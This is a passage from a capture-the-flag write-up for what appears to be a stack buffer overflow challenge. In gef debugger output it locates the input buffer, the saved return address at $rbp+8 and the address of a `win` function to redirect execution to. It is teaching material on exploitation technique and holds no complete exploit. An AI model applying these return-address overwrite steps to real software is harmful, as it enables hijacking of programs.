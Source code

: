 ```
gef➤  run

; -- snip --
Send your payload (up to 10 bytes)!
```

* Once we are prompted to enter our payload we can press `CTRL C` and then enter our payload.

```
gef➤  finish
Run till exit from #0  0x00007f7c7813dfd2 in __GI___libc_read (fd=0x0, buf=0x7ffc615eeba0, nbytes=0xa) at ../sysdeps/unix/sysv/linux/read.c:26
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

* The program has now read our payload.
* The `read` syscall takes the following arguments:

```c
ssize_t read(int fd, void buf[.count], size_t count);
```

* We can see that the second argument is the location to which input is read, and it is stored in `$rsi`.

```
gef➤  p $rsi
$2 = 0x7fff0c8f8e10
```

* In this challenge, we have no `win` variable to overwrite.
* The way we can divert flow of the program is by overwriting the return address.
* We know that the base pointer `$rbp` points to the saved base pointer of the caller function.
* Let's check this:

```
gef➤  x/a $rbp
0x7fff0c8f8e90: 0x7fff0c8f9ec0
```

* The base pointer `$rbp` has the value `0x7fff0c8f8e90` and it points to `0x7fff0c8f9ec0` which is the `$rbp` of the caller function.
* And the return address is stored right before the caller functions base pointer. In our case at `$rbp + 8`.

```
gef➤  x/a $rbp + 8
0x7fff0c8f8e98: 0x4024be <main+238>
```

* As we can see the return address is `<main+238>` and it is located at `0x7fff0c8f8e98`.
* We want to replace this value with the address of the `win` function.

```
gef➤  disass win
Dump of assembler code for function win:
   0x0000000000402184 <+0>:     endbr64 
; -- snip --
```
